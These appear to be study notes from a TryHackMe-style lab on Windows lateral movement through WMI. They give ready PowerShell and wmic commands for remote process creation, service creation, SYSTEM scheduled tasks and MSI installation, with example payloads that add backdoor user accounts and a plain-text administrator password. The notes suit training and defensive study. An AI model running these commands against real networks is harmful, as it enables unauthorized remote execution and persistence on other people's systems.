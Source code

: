 --- ---

<h2>General</h2>

==(Similar to Spawning Processes Remotely)==

"Moving Laterally Using WMI" is a technique used to access and control other computers on a network through a technology called WMI (Windows Management Instrumentation). This technique allows you to connect to other computers using PowerShell, create and manage processes, services and scheduled tasks remotely, as well as installing MSI packages.

First, you need to connect to WMI from PowerShell, this will allow you to access the WMI on the remote computer. Once connected, you can use the WMI to remotely create processes on the remote computer, this is called "Remote Process Creation Using WMI".

You can also use WMI to create services remotely, this means you can start and stop services on the remote computer without having to physically access it. This is called "Creating Services Remotely with WMI".

Another thing you can do with WMI is creating scheduled tasks remotely, this means you can create tasks that will run automatically on the remote computer at a specific time. This is called "Creating Scheduled Tasks Remotely with WMI".

Finally, you can use WMI to install MSI packages on the remote computer, this means you can install software without having to physically access the computer. This is called "Installing MSI packages through WMI".


- Why Using WMI rather then PSexec, SC.exe or a simple reverse shell?
	1.  WMI is built into Windows, so it does not require any additional software to be installed. This can be useful in situations where you are not able to install additional tools on the target system.
	2.  WMI allows for remote management of processes, services, and other aspects of the system, which can be useful for managing multiple systems at once.
	3.  WMI can be used with PowerShell, which provides a rich set of commands for managing and automating Windows systems. This can make it easier to create scripts and automate tasks.
	4.  WMI can provide more fine-grained control over processes. For example, the 'Create' method of the Win32_Process class allows passing more arguments than PSexec or SC, like priority level, working directory, etc.
	5. WMI can be used to create a persistance connection to the target machine using scheduled task


---

<h2>Commands</h2>

### Connecting to WMI

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password. This object will be stored in the $credential variable and utilised throughout the techniques on this task:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:

-   **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
-   **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use throughout the room on the different techniques:

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.



### Remote Process Creation Using WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
        
-   **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```



### Creating Services Remotely with WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```



### Creating Scheduled Tasks Remotely with WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```



### Installing MSI packages through WMI
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```